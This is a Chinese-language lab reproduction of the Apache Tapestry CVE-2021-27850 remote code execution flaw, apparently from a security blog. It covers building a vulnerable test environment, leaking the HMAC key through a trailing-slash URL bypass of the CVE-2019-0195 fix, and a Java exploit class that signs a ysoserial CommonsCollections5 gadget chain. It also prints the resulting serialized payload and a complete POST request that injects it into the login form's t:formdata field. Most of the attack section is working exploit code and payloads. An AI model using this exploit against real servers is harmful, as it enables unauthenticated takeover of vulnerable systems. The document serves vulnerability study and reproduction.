




# Apache Tapestry CVE-2021-27850 漏洞复现

[TOC]

## 环境搭建

由于maven version3.0及以上不能使用`-DarchetypeCatalog`，所以到处去找如何才能弄好环境。

> [Quickstart project does not work with maven-archetype-plugin 3.0.1 - ASF JIRA (apache.org)](https://issues.apache.org/jira/browse/TAP5-2579)

1. 构建。（不要使用3.x的`archetype-plugin`）

```bash
mvn org.apache.maven.plugins:maven-archetype-plugin:2.4:generate -DarchetypeCatalog=http://tapestry.apache.org
```

2. 用IDEA打开构建的那个东西，改掉里面的pom.xml，将版本改成有漏洞的版本。(选择Maven项目构建)



3. 等待IDEA构建完成并且依赖下载完成（记得刷新依赖）。
    * 如果已经下载过，可以直接在外面更改，不需要使用IDEA。

4. RUN。

    * 进入构建生成的目录。`mvn -Djetty.port=8080 jetty:run`

    * 或者使用IDEA。JDK使用1.8。

        

5. 报错排除：

    * 对于powershell， `.`会导致问题，可以不要端口，此时默认8080。

        * PowerShell解决方法：`mvn "-Djetty.port=8080" jetty:run`

    * 如果step 1 or 4 执行失败，更改mvn的settings.xml文件。在mvn根目录的conf文件夹里。（使用aliyun签名出错）

        ```xml
        <mirror>
              <id>maven2</id>
              <mirrorOf>central</mirrorOf>
              <name>maven</name>
              <url>https://repo1.maven.org/maven2 </url>
        </mirror>
        ```

        更改镜像设置，放在所有mirrors的最前面。

    * 如果报错`Unable to locate the Javac Compiler in:`

        * 设置java_home环境变量
            * 可以设置系统级别的
            * 可以把`set JAVA_HOME=D:\Java\corretto-1.8.0_292`添加到mvn.cmd里面（windows）
            * 可以把`JAVA_HOME=D:\Java\corretto-1.8.0_292`添加到mvn里面（linux）
            * 可以在执行命令的时候添加`-Djava.home="D:\Java\corretto-1.8.0_292\jre"`
                * PowerShell解决方法：`mvn "-Djetty.port=8080" jetty:run '-Djava.home="D:\Java\corretto-1.8.0_292\jre"' `
    
6. 上面搭建的环境没有可以利用的工具链，所以在pom里加一个依赖。

    ```xml
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.1</version>
    </dependency>
    ```

## 漏洞复现

> A critical unauthenticated remote code execution vulnerability was found all recent versions of Apache Tapestry. The affected versions include 5.4.5, 5.5.0, 5.6.2 and 5.7.0. The vulnerability I have found is a bypass of the fix for CVE-2019-0195. Recap: Before the fix of CVE-2019-0195 it was possible to download arbitrary class files from the classpath by providing a crafted asset file URL. An attacker was able to download the file `AppModule.class` by requesting the URL `http://localhost:8080/assets/something/services/AppModule.class`which contains a HMAC secret key. The fix for that bug was a blacklist filter that checks if the URL ends with `.class`, `.properties` or `.xml`. 
>
> Bypass: Unfortunately, the blacklist solution can simply be bypassed by appending a `/` at the end of the URL: `http://localhost:8080/assets/something/services/AppModule.class/` The slash is stripped after the blacklist check and the file `AppModule.class` is loaded into the response. This class usually contains the HMAC secret key which is used to sign serialized Java objects. With the knowledge of that key an attacker can sign a Java gadget chain that leads to RCE (e.g. CommonsBeanUtils1 from ysoserial). Solution for this vulnerability: *For Apache Tapestry 5.4.0 to 5.6.1, upgrade to 5.6.2 or later.* For Apache Tapestry 5.7.0, upgrade to 5.7.1 or later.

1. 访问`http://127.0.0.1:8080/tapestry/assets/something/services/AppModule.class/`，通过下载 AppModule.class 文件，我们可以泄漏用于对 apache Tapestry 中的所有序列化对象进行签名的 HMAC 密钥。`hmac-passphrase`

    

2. 搭建EXP。

    **Main.java**

    ```java
    import org.apache.tapestry5.internal.services.ClientDataEncoderImpl;
    import org.apache.tapestry5.services.ClientDataEncoder;
    import org.apache.tapestry5.services.ClientDataSink;
    import org.apache.tapestry5.services.URLEncoder;
    import ysoserial.payloads.*;
    import ysoserial.payloads.annotation.Dependencies;
    import ysoserial.payloads.util.PayloadRunner;
    
    import java.io.ObjectOutputStream;
    import org.apache.tapestry5.internal.services.URLEncoderImpl;
    
    @SuppressWarnings({"rawtypes", "unchecked"})
    @Dependencies({"org:tapestry:5.4.0 to 5.6.1"})
    // @Authors({Authors.Mrkaixin})
    public class Main extends PayloadRunner implements ObjectPayload<Object> {
        public static void main(final String[] args) throws Exception {
            String s = (String) new Main().getObject(CommonsCollections5.class.getName(), args);
            System.out.println(s);
        }
        public String getObject(String gadgetsName, boolean needBase64, String... args) throws Exception {
            String key, command = null;
            if (args.length < 1) {
                throw new IllegalArgumentException("please add hmac key");
            }
            if (args.length < 2) {
                System.out.println("don't have command param,default: calc.exe");
                command = "calc.exe";
            }else{
                command = args[1];
            }
            key = args[0];
            Class clazz = Class.forName(gadgetsName);
            ObjectPayload gadgets = (ObjectPayload) clazz.newInstance();
            Object obj = gadgets.getObject(command);
            URLEncoder urlEncoder = new URLEncoderImpl();
            ClientDataEncoder cde = new ClientDataEncoderImpl(urlEncoder, key, null, null, null);
            ClientDataSink cds = cde.createSink();
            ObjectOutputStream oos = cds.getObjectOutputStream();
            oos.writeUTF("orich1");
            oos.writeBoolean(false);
            oos.writeObject(obj);
            return cds.getClientData();
        }
        @Override
        public Object getObject(String command) throws Exception {
            return getObject(command, null);
        }
        public Object getObject(String gadgetName, String... args) throws Exception {
            return getObject(gadgetName, true, args);
        }
    }
    ```

    **pom.xml**

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <project xmlns="http://maven.apache.org/POM/4.0.0"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
        <modelVersion>4.0.0</modelVersion>
    
        <groupId>org.example</groupId>
        <artifactId>untitled</artifactId>
        <version>1.0-SNAPSHOT</version>
    
        <properties>
            <maven.compiler.source>8</maven.compiler.source>
            <maven.compiler.target>8</maven.compiler.target>
    
    
        </properties>
    
        <dependencies>
            <dependency>
                <groupId>org.apache.tapestry</groupId>
                <artifactId>tapestry-core</artifactId>
                <version>5.4.5</version>
            </dependency>
        </dependencies>
    
    </project>
    ```

    还需要手动导入`ysoserial-master-d367e379d9-1.jar`

3. 运行EXP。

    1. 运行配置

    

    2. 运行结果

        ```
        d/2C9ZmTI+z9AxkwXk9EHtDmSqc=:H4sIAAAAAAAAAJVVX2hbVRj/cpOsTUvXNNUydd1gaHVlvTHYyWqGri2tBm7nv1qGAfH05iS56/3nuSfJTSfiBB0oyB4qY4q6h71tE0QEX3wY/tlDcWhRlIkggkxhgj7txaHfOTe5uXG6ujyce3LO9/t9/79z9jdINlKwxWGGXs2Bx0A9TOrEVy1ikwq1qM3VGVKa5pwZyzVOl4hZo3O+O+fr1OWGY399+dIZfWL+gAIxDeJ1YnLIaIIiaxK7kn10+TDVed5nMCwOVXGohuAvr+188Pb89k8VgG6JxSpzGmTZpN98vvfuqcZH63FIaJDUSc2jHG6NKAgl8xoMlCgnhrlAPQ9t7zbkSXTAruSL0Odxoq8sMqKjxI5il0j7Ys6UniPlLV7NdRkS0lJotcchHcBq3DCzmuGhg+5z8AL0ujXW5gwcuZ5TmR/fv//arinhswsASYz5HTcAkNRnb47d/8PLCiQK0GcaNj1Ys5Yp02BrieomEW7NmsTzhAFJDXrLhkkPEou2/vdZlFedUngilT7OYazpOR5lBjFVlzRNh5Q8ddaxLPRv1jFNzJpwdS+Hbf9yKouEQwqjHGRYau9H5vvEZkAsW8UyGF7s4pBYIIaNKPGRDN0SObHJiGW4+2Koc4EkFqIxZmMyZiIDasSyO5+yLadklA1REiIzfw7elfvwyutpWZ8JE08ETw+W257NCTrnt83Ai+vPXN0haWI6h5FIBXTEsA68diFL5mnGSFPY4R/dGD15gbwdh1gBEp6xSmUioJEQqy+M2u4jdtJhFZW4RK9SVQ8Cj9/QPHWFNuuiB9VFg5YWiDtnc9Z89dzGW1Pnd36vgIJNiCKCTvSjRVwOgxFTEYE2coiXHQe1jW+iDfGqRlabCLN/XnvpnWZ6LS6Ie8pE5w5rctijIUU2oMi2KLIRiizWsu2VHWZRFkTngU10lmu24MZqrGKmaSlCcO+FE1fuWT2RwCwUYcCI3GBPThRvzhRs1QByI2OikI+Xxv/4bnLbyWjn5v+3M2JuEJtHCA/Vjw9NK++vyZpKGW0JmTvfrTMY6oyFJ2o2NywKnd/NxbJg150VyiLaj/3y18qR5y/uUyBehKQxzSoYw+Hi9bNbg35joXuGFPHoMcKItdh0KcIyUZgcRkF8h6OjsEV3/OKhd9PebrMdRYVDH46RloMIykRBAdmZkW/fW//i6TDyEIyewKqaMGlSMGHI0tFJKkbjqd9P71vNfzAjoXUpKufKhITlBMwNt8i7xZCR+i/SwImuNEjSXIv0Hz63Xp1zG0uXfx098nDb/hiHXp2Yukp9fIQSuOqhwpjYTEm63V5XDRRsTiuUZX46dfrq0WOYOJwkSTkM/C4bg/fhlbNvjPav/fhaqDMkk4PpEeJVsauTPZfOfzLy7FdxUObxdcFXYF52dgFSvIrvXtUxS7770IHA2UYvLmnptv83RJVbqToIAAA==
        ```

    3. url-encode key characters

        ```
        d/2C9ZmTI%2bz9AxkwXk9EHtDmSqc%3d%3aH4sIAAAAAAAAAJVVX2hbVRj/cpOsTUvXNNUydd1gaHVlvTHYyWqGri2tBm7nv1qGAfH05iS56/3nuSfJTSfiBB0oyB4qY4q6h71tE0QEX3wY/tlDcWhRlIkggkxhgj7txaHfOTe5uXG6ujyce3LO9/t9/79z9jdINlKwxWGGXs2Bx0A9TOrEVy1ikwq1qM3VGVKa5pwZyzVOl4hZo3O%2bO%2bfr1OWGY399%2bdIZfWL%2bgAIxDeJ1YnLIaIIiaxK7kn10%2bTDVed5nMCwOVXGohuAvr%2b188Pb89k8VgG6JxSpzGmTZpN98vvfuqcZH63FIaJDUSc2jHG6NKAgl8xoMlCgnhrlAPQ9t7zbkSXTAruSL0Odxoq8sMqKjxI5il0j7Ys6UniPlLV7NdRkS0lJotcchHcBq3DCzmuGhg%2b5z8AL0ujXW5gwcuZ5TmR/fv//arinhswsASYz5HTcAkNRnb47d/8PLCiQK0GcaNj1Ys5Yp02BrieomEW7NmsTzhAFJDXrLhkkPEou2/vdZlFedUngilT7OYazpOR5lBjFVlzRNh5Q8ddaxLPRv1jFNzJpwdS%2bHbf9yKouEQwqjHGRYau9H5vvEZkAsW8UyGF7s4pBYIIaNKPGRDN0SObHJiGW4%2b2Koc4EkFqIxZmMyZiIDasSyO5%2byLadklA1REiIzfw7elfvwyutpWZ8JE08ETw%2bW257NCTrnt83Ai%2bvPXN0haWI6h5FIBXTEsA68diFL5mnGSFPY4R/dGD15gbwdh1gBEp6xSmUioJEQqy%2bM2u4jdtJhFZW4RK9SVQ8Cj9/QPHWFNuuiB9VFg5YWiDtnc9Z89dzGW1Pnd36vgIJNiCKCTvSjRVwOgxFTEYE2coiXHQe1jW%2biDfGqRlabCLN/XnvpnWZ6LS6Ie8pE5w5rctijIUU2oMi2KLIRiizWsu2VHWZRFkTngU10lmu24MZqrGKmaSlCcO%2bFE1fuWT2RwCwUYcCI3GBPThRvzhRs1QByI2OikI%2bXxv/4bnLbyWjn5v%2b3M2JuEJtHCA/Vjw9NK%2b%2bvyZpKGW0JmTvfrTMY6oyFJ2o2NywKnd/NxbJg150VyiLaj/3y18qR5y/uUyBehKQxzSoYw%2bHi9bNbg35joXuGFPHoMcKItdh0KcIyUZgcRkF8h6OjsEV3/OKhd9PebrMdRYVDH46RloMIykRBAdmZkW/fW//i6TDyEIyewKqaMGlSMGHI0tFJKkbjqd9P71vNfzAjoXUpKufKhITlBMwNt8i7xZCR%2bi/SwImuNEjSXIv0Hz63Xp1zG0uXfx098nDb/hiHXp2Yukp9fIQSuOqhwpjYTEm63V5XDRRsTiuUZX46dfrq0WOYOJwkSTkM/C4bg/fhlbNvjPav/fhaqDMkk4PpEeJVsauTPZfOfzLy7FdxUObxdcFXYF52dgFSvIrvXtUxS7770IHA2UYvLmnptv83RJVbqToIAAA%3d
        ```

4. 找到一个`form`表单，这里找的是登陆的`form`表单。

5. 在`form`表单中存在一个`t:formdata` 的属性，所以只需要替换成为`Poc`即可。

    ```http
    POST /tapestry/login.login HTTP/1.1
    Host: 127.0.0.1:8080
    Content-Length: 1639
    Content-Type: application/x-www-form-urlencoded
    ......
    
    t%3Asubmit=%5B%22submit_0%22%2C%22submit_0%22%5D&t%3Aformdata=d/2C9ZmTI%2bz9AxkwXk9EHtDmSqc%3d%3aH4sIAAAAAAAAAJVVX2hbVRj/cpOsTUvXNNUydd1gaHVlvTHYyWqGri2tBm7nv1qGAfH05iS56/3nuSfJTSfiBB0oyB4qY4q6h71tE0QEX3wY/tlDcWhRlIkggkxhgj7txaHfOTe5uXG6ujyce3LO9/t9/79z9jdINlKwxWGGXs2Bx0A9TOrEVy1ikwq1qM3VGVKa5pwZyzVOl4hZo3O%2bO%2bfr1OWGY399%2bdIZfWL%2bgAIxDeJ1YnLIaIIiaxK7kn10%2bTDVed5nMCwOVXGohuAvr%2b188Pb89k8VgG6JxSpzGmTZpN98vvfuqcZH63FIaJDUSc2jHG6NKAgl8xoMlCgnhrlAPQ9t7zbkSXTAruSL0Odxoq8sMqKjxI5il0j7Ys6UniPlLV7NdRkS0lJotcchHcBq3DCzmuGhg%2b5z8AL0ujXW5gwcuZ5TmR/fv//arinhswsASYz5HTcAkNRnb47d/8PLCiQK0GcaNj1Ys5Yp02BrieomEW7NmsTzhAFJDXrLhkkPEou2/vdZlFedUngilT7OYazpOR5lBjFVlzRNh5Q8ddaxLPRv1jFNzJpwdS%2bHbf9yKouEQwqjHGRYau9H5vvEZkAsW8UyGF7s4pBYIIaNKPGRDN0SObHJiGW4%2b2Koc4EkFqIxZmMyZiIDasSyO5%2byLadklA1REiIzfw7elfvwyutpWZ8JE08ETw%2bW257NCTrnt83Ai%2bvPXN0haWI6h5FIBXTEsA68diFL5mnGSFPY4R/dGD15gbwdh1gBEp6xSmUioJEQqy%2bM2u4jdtJhFZW4RK9SVQ8Cj9/QPHWFNuuiB9VFg5YWiDtnc9Z89dzGW1Pnd36vgIJNiCKCTvSjRVwOgxFTEYE2coiXHQe1jW%2biDfGqRlabCLN/XnvpnWZ6LS6Ie8pE5w5rctijIUU2oMi2KLIRiizWsu2VHWZRFkTngU10lmu24MZqrGKmaSlCcO%2bFE1fuWT2RwCwUYcCI3GBPThRvzhRs1QByI2OikI%2bXxv/4bnLbyWjn5v%2b3M2JuEJtHCA/Vjw9NK%2b%2bvyZpKGW0JmTvfrTMY6oyFJ2o2NywKnd/NxbJg150VyiLaj/3y18qR5y/uUyBehKQxzSoYw%2bHi9bNbg35joXuGFPHoMcKItdh0KcIyUZgcRkF8h6OjsEV3/OKhd9PebrMdRYVDH46RloMIykRBAdmZkW/fW//i6TDyEIyewKqaMGlSMGHI0tFJKkbjqd9P71vNfzAjoXUpKufKhITlBMwNt8i7xZCR%2bi/SwImuNEjSXIv0Hz63Xp1zG0uXfx098nDb/hiHXp2Yukp9fIQSuOqhwpjYTEm63V5XDRRsTiuUZX46dfrq0WOYOJwkSTkM/C4bg/fhlbNvjPav/fhaqDMkk4PpEeJVsauTPZfOfzLy7FdxUObxdcFXYF52dgFSvIrvXtUxS7770IHA2UYvLmnptv83RJVbqToIAAA%3d&email=aa&password=aa&submit_0=Sign+in
    ```

6. 发送就会弹出计算器。

## 代码审计

### 反序列化部分

* 执行表单的时候，会进入到`org\apache\tapestry\tapestry-core\5.4.5\tapestry-core-5.4.5.jar!\org\apache\tapestry5\corelib\components\Form.class#executeStoredActions`方法里面，在这里会解析`t:formdata`字段。在723行和724行不出错的情况下，第725行执行将反序列化并且执行命令。



### 绕过CVE-2019-0195的修复部分

> 在CVE-2019-0195中，通过操纵classpath资产文件URL，攻击者可以在classpath中猜测文件的路径，然后下载该文件。攻击者可以通过请求包含HMAC秘钥的URL `http://localhost:8080/assets/something/services/AppModule.class`来下载文件AppModule.class。
>
> CVE-2019-0195的修复使用了黑名单过滤，其检查URL是否以“.class”、“.properties”或“.xml”结尾，但这种黑名单过滤可以通过在URL结尾添加“/”来绕过。当`http://localhost:8080/assets/something/services/AppModule.class/`在黑名单检查后，斜线被剥离，AppModule.class文件被加载到响应中。这个类通常包含用于对序列化的Java对象进行签名的HMAC秘钥，在知道该密钥的情况下，攻击者就可以签署Java小工具链（例如ysoserial的CommonsBeanUtils1），最终导致远程代码执行。

这部分代码在哪没有找到。
